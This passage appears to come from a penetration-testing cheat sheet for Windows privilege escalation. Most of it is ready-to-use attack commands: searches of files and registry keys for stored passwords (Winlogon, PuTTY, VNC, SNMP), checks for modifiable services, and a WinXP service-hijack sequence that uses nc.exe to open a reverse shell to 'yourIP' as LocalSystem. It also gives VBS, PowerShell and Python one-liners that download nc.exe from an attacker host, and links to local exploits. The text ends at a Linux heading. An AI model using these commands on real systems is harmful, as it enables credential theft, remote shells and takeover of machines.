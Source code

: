 ```
`findstr /si password *.xml *.ini *.txt`     

* Find interesting registry entries     
`reg query HKLM /f password /t REG_SZ /s`     
`reg query HKCU /f password /t REG_SZ /s`     

* Permissions     
Check detail on service - `accesschk.exe /accepteula -ucqv <service name>`     
Find modifiable services - `accesschk.exe /accepteula -uwcqv "Authenticated Users" *`     
                           `accesschk.exe /accepteula -uwcqv "Users" *`     
Folder permissions - `accesschk.exe -dqv <path>`          
`cacls <path>`     
`icacls <path\file`     
                           
* Qick win on WinXP SP0/1       
`sc config upnphost binpath= "C:\nc.exe -nv yourIP 4444 -e C:\WINDOWS\System32\cmd.exe"`     
`sc config upnphost obj= ".\LocalSystem" password= ""`     
`sc config upnphost depend= ""`     
`net stop upnphost`     
`net start upnphost`     

* Quick wins     
`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`     
`reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"`     
`reg query" HKCU\Software\SimonTatham\PuTTY\Sessions"`     
`reg query "HKCU\Software\ORL\WinVNC3\Password"`     

* Download file with VBS     
```
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://yourIp/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 \'//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\\Users\\Public\\nc.exe", 2 \'//overwrite
end with
```

* Download with Powershell 3+     
`powershell -NoLogo -Command "Invoke-WebRequest -Uri 'https://yourIP/nc.exe' -OutFile 'c:\Users\Public\Downloads\nc.exe'"`

* Download with Powershell 2     
`powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('https://yourIP/nc.exe', 'c:\Users\Public\Download\nc.exe')"`

* Download with Python     
`c:\Python26\python.exe -c "import urllib; a=open('nc.exe', 'wb'); a.write(urllib.urlopen('http://yourIP/nc.exe').read()); a.flush();a.close()" ` 


* Windows specific LPE vulns     
- https://www.exploit-db.com/exploits/11199/
- https://www.exploit-db.com/exploits/18176/
- https://www.exploit-db.com/exploits/15609/
- https://www.securityfocus.com/bid/42269/exploit
- https://www.securityfocus.com/bid/46136/exploit

## Inside Linux

```